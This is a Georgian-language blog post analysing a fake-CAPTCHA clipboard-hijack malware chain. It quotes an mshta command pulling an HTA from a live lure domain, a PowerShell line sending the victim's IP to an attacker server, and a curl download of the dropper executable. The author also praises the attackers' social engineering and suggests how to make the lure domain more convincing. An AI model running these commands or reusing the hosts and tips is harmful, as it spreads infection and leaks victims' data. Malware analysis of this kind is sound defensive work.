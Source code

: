 ```yaml
---
title: "ფიშინგი რობოტების წინააღმდეგ!"
date: 2024-12-20 18:10:00 +0400
categories: [CyberSecurity,Hacking]
tags: [Malware]
---
```


## რა მოხდა?

ერთ-ერთ საიტზე შევედი და უცებ ასეთი რამ გამოჩნდა:

![1.png](https://44b4c0.github.io/assets/img/posts/22/1.png)

მეც ამოვხსენი ეს "თავსატეხი", მაგრამ შემდეგ ასეთი რამ გამოჩნდა:

![2.png](https://44b4c0.github.io/assets/img/posts/22/2.png)

ვის სჯერა, რომ `DNS` სერვერი არ მუშაობს და `run`-ში რაღაც უცნაური უნდა ჩაწეროს?

## ანალიზის დასაწყისი

ყველაზე უცნაური აქ ისაა, რომ არაფრის დაკოპირება მოუთხოვია. შესაძლოა როდესაც "თავსატეხის" ამოხსნას დავაჭირე სწორედ მაშინ მოხდა ტექსტის `clipboard`-ში გადატანა. როდესაც `paste` ვცადე `notepad`-ში, ასეთი რამ გამოჩნდა:

```powershell
mshta https://microsoft-dns-reload-6y.pages.dev # "Microsoft Windows: DNS service Reload and Restart UP
```

`mshta` არის `Microsoft HTML Application` ჰოსტი, რომელიც ამ უცნაური ლინკიდან წამოღებულ `.hta` ფაილს გაუშვებს. ახლა ისღა დამრჩენია ეს ფაილი ვიშოვო და შემდეგ ვირტუალურ მანქანაში გავაკეთო მისი ანალიზი.

![3.png](https://44b4c0.github.io/assets/img/posts/22/3.png)

აქ კარგად ჩანს თუ რის გაკეთებას ცდილობს `HTML`-ში ჩაშენებული `VBA` სკრიპტი. მოკლედ რომ ვთქვა, გაჩნდება `powershell` პროცესი, რომელიც `base64`-ში დაენკოდებული `URL`-ს გაუგზავნის `HTTP` მოთხოვნას.

![4.png](https://44b4c0.github.io/assets/img/posts/22/4.png)

აქ უკვე `.exe` ფაილი გამოჩნდა. რა თქმა უნდა, ამ ეტაპზე წინა `.exe` ფაილის ანალიზი არ დამისრულებია, მაგრამ ამ ბლოგში ვეცდები ეს ფაილი დავშალო და შევამოწმო რას აკეთებს უფრო კონკრეტულად.

## Powershell-ის ანალიზი

მოკლედ, რაღაც ლინკიდან მოდის `.exe` ფაილი, რომელიც ინახება `response`-ში. ამის შემდეგ სკრიპტი ამოწმებს არსებობს თუ არა `MemoryExec`, რაც ნიშნავს იმას, რომ სკრიპტი ამოწმებს შეუძლია თუ არა კომპიუტერს მთლიანი `binary` ინფორმაციის მეხსიერებაში გადატანა და იქიდან გაშვება, ანუ ფაილის მყარ დისკზე არ შექმნა. ასეთ ფაილებს `Lolbin`-ები ეწოდებათ, ანუ `Live Off the Land Binaries`.

```powershell
Invoke-RestMethod -Uri "https://saaadnesss.shop/connect" -Method Post -Body (@{ip = (Invoke-RestMethod -Uri "https://ifconfig.me/ip")} | ConvertTo-Json) -Headers @{ "Content-Type" = "application/json" } | Out-Null
```

აქ `JSON` მონაცემები იგზავნება `POST` მეთოდით და ეს ჰედერებიდანაც კარგად ჩანს:

```
Content-Type: application/json
```

`JSON` მონაცემები კი `hxxps://ifconfig.me/ip`-დან წამოვა. ეს საიტი შესული მოთხოვნის ანალიზს აკეთებს და უკან გარკვეულ ფორმატში აბრუნებს. ამ სკრიპტის ავტორი კი მას `JSON`-ად გადააქცევს `ConvertTo-Json`-ის გამოყენებით.

ეს ყველაზე საინტერესოა. დიდი ალბათობით ამ დომენის უკან მთავარი `C2` სერვერი დგას, რომელსაც შეგვიძლია, რომ ჩავარტყათ. ვეცდები სხვა ქსელიდან ვცადო ეს ყველაფერი.

```
hxxps://polovoiinspektor.shop/protect/GodResponsibility.exe
```

როგორც ჩანს ფაილის სახელია `GodResponsibility`. არ ვიცი ასეთი არაკრეატიული სახელი რატომ ჰქვია, მაგრამ ჩემთვის სულ ერთია, მთავარია ჰოსტი ნაპოვნია.

`Run()` ფუნქცია კი, რომელიც `HTTP` სერვისიდან მიღებულ `data stream`-ს მეხსიერებაში ტვირთავს და შემდეგ უშვებს, პროცესის ოფციებს ასწორებს/აკონფიგურირებს. მაგალითად:

```c#
process.StartInfo.CreateNoWindow = true;
```

ეს ნიშნავს, რომ პროცესის `startup info`-ში(ეს ის სტარტაპი არ არის) ჩაიწერება ოფცია, რომელიც ამ პროცესის შექმნისას არ გააჩენს ფანჯრებს. ანუ, თუ მაგალითად ეს აპლიკაცია `Console Application` არის, ეს ნიშნავს იმას, რომ მას აუცილებლად დასჭირდება `conhost.exe` და მარტივად რომ ვთქვა `cmd.exe`-ს ფანჯარა. ეს ოფცია ამ ფანჯრის შექმნის პრევენციას მოახდენს.

```powershell
curl https://polovoiinspektor.shop/protect/GodResponsibility.exe --output GodResponsibility.exe
```

ამ ბრძანებით ვიწერ მავნე კოდს და `GodResponsibility.exe` ფაილში ვინახავ, `Desktop`-ზე.

## GodResponsibility.exe

ფუნქციების შემოწმებისას აქაც ჩანს ბევრი ისეთი ფუნქცია, რომელიც წინა მავნე კოდის განხილვისას აღმოვაჩინე.

![5.png](https://44b4c0.github.io/assets/img/posts/22/5.png)

ზოგი ტექსტი წინა `malware`-შიც აღმოვაჩინე, ასე, რომ ძალიან მაინტერესებს რა მოხდება ამ პროგრამას თუ გავუშვებ. სანამ ამას გავაკეთებ ერთხელ გადავხედავ `r2.exe`-თი და მერე ჩავაგდებ `xdbg`-ში.

![6.png](https://44b4c0.github.io/assets/img/posts/22/6.png)

ეს და წინა მავნე კოდი, `NativeApp_G4QLIQRa.exe` ძალიან ემთხვევიან ერთმანეთს. განსხვავება აქ ისაა, რომ წინა ვირუსი 50 მეგაბაიტზე მეტი იყო ზომაში, ხოლო ეს მხოლოდ 1.18 მეგაბაიტია.

სხვათაშორის, ეს ვირუსი 2024 წლის 17 სექტემბერსაა ხელმოწერილი `Notepad++`-ის მიერ. ყოველშემთხვევაში ასე წერია დეტალებში.

![GodPriority.png](https://44b4c0.github.io/assets/img/posts/22/GodPriority.png)

ეს აღმოვაჩინე. `.exe`-ს `icon` ყოფილა. დიდად ვერ ვხვდები ეს რას შეიძლება ნიშნავდეს, მაგრამ საკმაოდ საინტერესოა, როდესაც მავნე კოდში ასეთ უცნაურ რამეს პოულობს ვინმე.

ახლა შევეცდები `Wireshark` ჩავწერო ვირტუალურ მანქანაზე და შემდეგ ქსელს გავუთიშავ მას. აი როდესაც ამას ვიზამ `Wireshark`-ს ჩავრთავ და ვირუსს გავუშვებ. ვნახავ რის გაგზავნას შეეცდება და სად, ან საერთოდ თუ შეეცდება რამის გაგზავნას სადმე.

#### ყველაფერი აირია

სამწუხაროდ ყველაფერი აირია. ვირტუალური მანქანა გაითიშა და ის პროგრესი რაც მქონდა სულ დაიკარგა. ამასთან, ვირუსმა თავი წაიშალა. ამ ვირტუალური სისტემის ქსელთან დაკავშირება არ მსურს, რადგან შესაძლოა ვირუსი ჩემს ქსელში გავრცელდეს, ასე, რომ ამ ეტაპზე მას ასე დავტოვებ.

## Attack Chain-ის შეფასება

#### Stage 0

საბოლოოდ, ვფიქრობ, ამ გუნდმა კარგად იმუშავა და ნამდვილად იმსახურებენ დაფასებას. სოციალური ინჟინერიის ხარისხის ძალიან მომეწონა, როდესაც `Google Capcha` თავიდან ააწყვეს და შემდეგ `Run`-ში `Clipboard`-დან ბრძანების ჩაწერა შემოგვთავაზეს. **ასეთი რაღაცების კრიტიკოსი უნდა გავხდე**.

#### Stage 1

კარგი იყო `hxxps://microsoft-dns-reload-6y.pages.dev` ლინკიც, რომელიც ყველანაირად ვალიდურად გამოიყურება. ერთადერთი, რაც ამ ყველაფერს საეჭვოს ხდის არის `6y` და, ვფიქრობ, ეს უნდა მოშორდეს დომენს. ყოველშემთხვევაში მე მაგ ნაწილს არ გამოვიყენებდი სამიზნის დაბნევის დროს.

`VBA` სკრიპტის `HTML`-ში ინტეგრაცია და `WScript.Shell`-ის გაჩენა `CreateObject`-ით, ეს სტანდარტული სვლაა და იმდენად ბევრი ჰაკერი აკეთებს უკვე ამას, რომ აღარ მაოცებს. **სამაგიეროდ** მომეწონა მეორე დომენის სახელი, რომელიც `.shop`-ით ბოლოვდება და ეს, ჩემი აზრით, უფრო ვალიდურ იერსახეს მისცემს ამ კონკრეტულ დომენს.

#### Stage 2-3

`Powershell`-ს რაც ეხება კარგია, რომ დეველოპერს არ ავიწყდება მეხსიერებაში პირდაპირი ჩატვირთვის ფუნქციონალის შემოწმება მანამ, სანამ ის ამას გააკეთებს. **მაგრამ** არ მესმის ეს:

```powershell
Invoke-RestMethod -Uri "https://saaadnesss.shop/connect" -Method Post -Body (@{ip = (Invoke-RestMethod -Uri "https://ifconfig.me/ip")} | ConvertTo-Json) -Headers @{ "Content-Type" = "application/json" } | Out-Null
```

საქმე ისაა, რომ ინფიცირებისას რაც შეიძლება ნაკლებად ხმაურიანი უნდა იყოს მავნე კოდი, იმპლანტი თუ დროპერი. აქედან გამომდინარე ისმის კითხვა: `რატომ გახდა საჭირო კიდევ ორი მოთხოვნის განხორციელება?`. აქ რაცაა მოცემული, მაგის გაკეთება `.exe` ფაილიდანაც შეიძლებოდა, მოგვიანებით.

როდესაც პირველად ჩაიტვირთა მავნე კოდი მეხსიერებაში, `Task Manager`-მა ის დაინახა როგორც `Autoit`, ასე, რომ მაგაშიც ერთ ქულას დავწერ:

![7.png](https://44b4c0.github.io/assets/img/posts/22/7.png)

მოკლედ, რომ შევაჯამო, საკმაოდ საინტერესო შეტევის მეთოდია და ნამდვილად იმსახურებს ეს მეთოდი განვითარებას.
